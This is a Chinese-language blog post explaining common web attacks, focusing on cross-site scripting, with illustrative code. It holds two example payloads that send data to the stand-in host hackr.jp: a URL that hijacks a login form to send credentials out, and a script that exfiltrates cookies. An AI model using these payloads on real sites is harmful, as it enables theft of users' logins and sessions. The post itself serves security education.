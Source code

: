 ```yaml
---
title:  "Web安全策略"
image: /assets/img/blog/Website-attacks.jpg
description: >
  Watch out your password!!!
author: author2
comments: true
---
```


互联网作为一个面向全世界的开放平台，不可避免会存在很多的漏洞，及时发现并修复漏洞对维护网站稳定性，避免或减少客户损失就显得分外重要，常见的Web攻击方式有：XSS、CSRF、Session攻击、点击劫持、DDos、脚本注入、SQL注入、DNS劫持、端口漏洞扫描、密码暴力破解等。下面简要分析了几种常见的Web攻击类型。

### 一、跨站脚本攻击（XSS）

​        跨站脚本攻击是指通过存在安全漏洞的Web网站注册用户的浏览器运行非法的HTML标签或JavaScript进行的一种攻击。动态创建的HTML部分有可能隐藏着安全漏洞。就这样，当攻击者编写脚本，设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击。

​        跨站脚本攻击有可能造成以下影响：

- **利用虚假信息骗取用户个人信息**
- **利用脚本窃取用户的Cookie值，被害人在不知情的情况下，帮攻击者发送恶意请求。**
- **显示伪造的文章或图片。**

​        跨站脚本攻击案例

#####         1. 在动态生成的HTML处发生

​        在编辑个人信息的页面处输入`<s>Username</s>`，此时的确认界面上，浏览器会把用户输入的`<s>`解析成HTML标签，然后显示出删除线，删除线的显示不会造成太大的不利影响，但如果换成使用`<script>`标签将会带来不可估量的影响。

#####         2. 利用预先设置的陷阱触发的被动攻击

​        当通过地址栏中的URL的查询字段指定ID时，相当于在表单内自动填写字符串的功能，此时隐藏着可执行跨站脚本攻击的漏洞。如果攻击者创建嵌入恶意代码的URL。并隐藏植入事先准备好的欺诈邮件中或Web页面内，诱使用户去点击该URL。

```html
http://example.jp/login?ID="><script>var+
f=document.getElementById("login");+
f.action="http://hackr.jp/pwget";+
f.method="get";</script><span+s="
```

​        浏览器打开该URL后，直观感觉没产生什么影响，但设置好的脚本却偷偷开始运行了。当用户在表单内输入ID和密码后，就会直接发送到攻击者的网站，导致个人登陆信息被窃取。之后，ID及密码会传给该正规网站，而在接下来仍然是按正常登陆的步骤，用户很难意识到自己的登陆信息已遭泄露。

#####         3. 对用户Cookie的窃取攻击

```javascript
//xss.js
var content=escape(document.cookies);
document.write("<img src='http://hackr.jp/?'");
document.write(content);
document.write(">");
<script src="http://hackr.jp/xss.js"></script>
```
